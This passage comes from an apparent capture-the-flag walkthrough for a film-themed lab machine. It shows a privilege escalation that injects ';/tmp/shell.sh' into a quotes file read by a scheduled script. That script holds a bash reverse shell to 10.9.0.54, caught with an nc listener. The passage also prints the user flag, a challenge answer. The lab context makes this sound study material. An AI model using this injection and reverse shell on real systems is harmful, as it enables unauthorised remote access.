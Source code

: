 Random messages are stored in the `/opt/.dads_scripts/.files/.quotes` file:

~~~
weston@national-treasure:~$ cat /opt/.dads_scripts/.files/.quotes
"That's funny, my name's Roger. Two Rogers don't make a right!" — Gone in Sixty Seconds
"Did I ever tell ya that this here jacket represents a symbol of my individuality, and my belief in personal freedom?" — Wild at Heart
"Well, I'm one of those fortunate people who like my job, sir. Got my first chemistry set when I was seven, blew my eyebrows off, we never saw the cat again, been into it ever since." — The Rock

[REDACTED]

"Here's something that if you want your father to think you're not a silly ****, don't slap a guy across the face with a glove because if you do that, that's what he will think. Unless you're a noble man or something in the nineteenth century. Which I am not." — The Weather Man
"It's like we're on two different channels now. I'm CNN and she's the Home Shopping Network." — It Could Happen to You
~~~

We can exploit this by replacing the content of the file with a reverse shell.

Open a listener on your machine:

~~~
$ rlwrap nc -nlvp 4444
~~~

Execute the following commands on the remote machine to create a reverse shell and overwrite the content of the file called by the script, to call our reverse shell: 

~~~
$ cat > /tmp/shell.sh << EOF
#!/bin/bash
bash -i >& /dev/tcp/10.9.0.54/4444 0>&1
EOF
$ chmod +x /tmp/shell.sh
$ printf 'anything;/tmp/shell.sh\n' > /opt/.dads_scripts/.files/.quotes
~~~

After 2 minutes or so, you'll get a reverse shell and will be connected as `cage`. The flag appears in a file named `Super_Duper_Checklist` in cage's `home` folder.

~~~
cage@national-treasure:~$ cat Super_Duper_Checklist
cat Super_Duper_Checklist
1 - Increase acting lesson budget by at least 30%
2 - Get Weston to stop wearing eye-liner
3 - Get a new pet octopus
4 - Try and keep current wife
5 - Figure out why Weston has this etched into his desk: THM{M37AL_0R_P3N_T35T1NG}
~~~

User flag: `THM{M37AL_0R_P3N_T35T1NG}`

# #3 - What's the root flag?
